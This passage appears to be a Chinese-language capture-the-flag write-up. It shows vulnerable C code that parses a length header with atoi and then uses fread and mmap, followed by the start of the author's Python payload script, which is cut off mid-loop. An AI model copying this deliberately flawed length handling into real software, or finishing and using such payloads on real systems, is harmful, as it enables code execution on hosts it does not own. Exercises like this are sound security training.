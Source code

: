 ```
  if(fgets(line, sizeof(line), stdin) == NULL) {
      errx(1, "reading from stdin");
  }

  if(strncmp(line, CL, strlen(CL)) != 0) {
      errx(1, "invalid header");
  }

  length = atoi(line + strlen(CL));
  
  if(length < sizeof(buf)) {
      if(fread(buf, length, 1, stdin) != length) {
          err(1, "fread length");
      }
      process(buf, length);
  } else {
      int blue = length;
      int pink;

      fd = getrand(&path);

      while(blue > 0) {
          printf("blue = %d, length = %d, ", blue, length);

          pink = fread(buf, 1, sizeof(buf), stdin);
          printf("pink = %d\n", pink);

          if(pink <= 0) {
              err(1, "fread fail(blue = %d, length = %d)", blue, length);
          }
          write(fd, buf, pink);

          blue -= pink;
      }    

      mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
      if(mem == MAP_FAILED) {
          err(1, "mmap");
      }
      process(mem, length);
  }

}
```

这题应该不是很难，能看懂代码应该就能解出来，贴下我的payload脚本
```
#payload.py
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import sys

def my_w_file(content):
	f = open("payload", "w")
	f.write(content)
	f.close()
	
	
def main(command):
	command += "\x00"
	length = 1024
	count_length = length & 0xff
	payload_command = ""
	for x in command:
```